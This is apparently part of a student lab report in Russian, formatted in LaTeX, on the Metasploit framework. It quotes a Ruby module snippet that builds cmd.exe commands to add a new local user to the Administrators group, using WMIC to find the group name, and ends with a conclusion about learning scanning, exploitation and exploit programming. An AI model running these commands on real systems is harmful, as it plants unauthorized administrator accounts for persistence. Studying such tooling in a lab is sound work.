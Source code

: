 \documentclass[11pt, a4paper]{article}		%
\begin{document}
\begin{itemize}
\begin{verbatim}
    if not cust.empty?
      print_status("Using custom group name #{cust}")
      return "cmd.exe /c net user #{user} #{pass} /ADD && " +
        "net localgroup \"#{cust}\" #{user} /ADD"
    elsif wmic
      print_status("Using WMIC to discover the administrative group name")
      return "cmd.exe /c \"FOR /F \"usebackq tokens=2* skip=1 delims==\" " +
        "%G IN (`wmic group where sid^='S-1-5-32-544' get name /Value`); do " +
        "FOR /F \"usebackq tokens=1 delims==\" %X IN (`echo %G`); do " +
        "net user #{user} #{pass} /ADD && " +
        "net localgroup \"%X\" #{user} /ADD\""
    else
      return "cmd.exe /c net user #{user} #{pass} /ADD && " +
        "net localgroup Administrators #{user} /ADD"
    end

  end
\end{verbatim}



\end{itemize}




\section{Выводы}

После выполнения работы были изучены основные принципы работы с metasploit-framework, в основном через интерфейс msfconsole. Так же пришлось поработать через интерфейс armitage. С практической стороны были изучены методы сканирования хостов и получения к ним доступа, рассмотрены типичные атаки. Изучены основы программирования эксплоитов, код некоторых модулей. Очень понравилось работать с данной лабораторной работой!
\end{document}
